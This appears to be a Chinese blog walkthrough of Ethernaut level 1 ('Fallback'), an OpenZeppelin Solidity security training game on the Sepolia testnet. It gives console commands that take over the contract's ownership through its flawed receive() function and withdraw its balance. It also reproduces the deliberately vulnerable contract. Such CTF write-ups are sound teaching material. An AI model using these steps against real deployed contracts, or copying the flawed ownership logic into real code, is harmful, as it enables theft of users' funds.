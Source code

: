 ```yaml
---
title: Ethernaut第1关-fallback解题指南
date: 2025-04-09 00:30:46
tags: web3,securtiy
---
```


# Ethernaut 第 1 关 - Fallback 解题指南

Ethernaut 是 OpenZeppelin 提供的 Web3/Solidity 战游戏，通过“黑客”智能合约帮助学习以太坊安全知识。第 1 关“Fallback”是一个基础关卡，旨在让玩家理解回退函数的潜在漏洞。本指南详细解释如何解决关卡 [https://ethernaut.openzeppelin.com/level/0x3c34A342b2aF5e885FcaA3800dB5B205fEfa3ffB](https://ethernaut.openzeppelin.com/level/0x3c34A342b2aF5e885FcaA3800dB5B205fEfa3ffB)，并提供完整步骤。

<!-- more -->

## 前提条件
- 安装并配置 [Metamask](https://metamask.io/)，连接到 Sepolia 测试网。
- 从 [Sepolia Faucet](https://sepoliafaucet.com/) 获取测试网 ETH。
- 访问 [Ethernaut 官网](https://ethernaut.openzeppelin.com/) 并生成新实例。

## 关卡目标
- 成为合约的 `owner`。
- 将合约余额减少到 0（初始余额为 0.001 ETH）。

## 解决步骤

### 1. 准备环境
- 确保 Metamask 已连接到 Sepolia 测试网并有足够的 ETH。
- 在 Ethernaut 第 1 关页面点击“生成新实例”，获取合约地址。
- 打开浏览器开发者工具（F12），切换到 Console 标签。

### 2. 发送初始贡献
- 调用 `contribute` 函数，发送少量 ETH（例如 0.0001 ETH）：
  ···javascript
  await contract.contribute({ value: ethers.parseEther("0.0001") })
  ···
- 这将记录你的贡献，满足回退函数的要求。

### 3. 触发回退函数接管所有权
- 直接向合约发送 ETH（例如 0.001 ETH），触发 `receive` 函数：
  ···javascript
  await web3.eth.sendTransaction({
      from: player,
      to: contract.address,
      value: ethers.parseEther("0.001")
  })
  ···
- 发送成功后，你将成为新的 `owner`。

### 4. 提取资金
- 调用 `withdraw` 函数提取所有余额：
  ···javascript
  await contract.withdraw()
  ···
- 合约余额将被转回你的钱包。

### 5. 验证完成
- 检查合约余额（应为 0）：
  ···javascript
  await web3.eth.getBalance(contract.address)
  ···
- 检查 `owner`（应为你的地址）：
  ···javascript
  await contract.owner()
  ···
- 在 Ethernaut 页面点击“Submit Instance”验证。

## 注意事项
- **ETH 单位**：`ethers.parseEther("0.001")` 将 0.001 ETH 转换为 Wei。
- **交易确认**：每次调用需等待交易确认。
- **成本**：需支付少量 ETH，但提取的资金会覆盖成本。

## 合约代码参考
以下是关卡的简化合约代码：
···solidity
contract Fallback {
    mapping(address => uint) public contributions;
    address public owner;

    constructor() {
        owner = msg.sender;
        contributions[msg.sender] = 1000 * (1 ether);
    }

    modifier onlyOwner {
        require(msg.sender == owner, "caller is not the owner");
        _;
    }

    function contribute() public payable {
        require(msg.value < 0.001 ether);
        contributions[msg.sender] += msg.value;
        if (contributions[msg.sender] > contributions[owner]) {
            owner = msg.sender;
        }
    }

    receive() external payable {
        require(msg.value > 0);
        require(contributions[msg.sender] > 0);
        owner = msg.sender;
    }

    function withdraw() public onlyOwner {
        payable(owner).transfer(address(this).balance);
    }
}
···

## 结果
通过利用回退函数的漏洞，你成功接管合约并提取所有资金，完成第 1 关。这一关展示了回退函数设计不当的安全风险。

## 资源与参考
- [Ethernaut 官网](https://ethernaut.openzeppelin.com/)
- [Metamask 官网](https://metamask.io/)
- [Sepolia Faucet](https://sepoliafaucet.com/)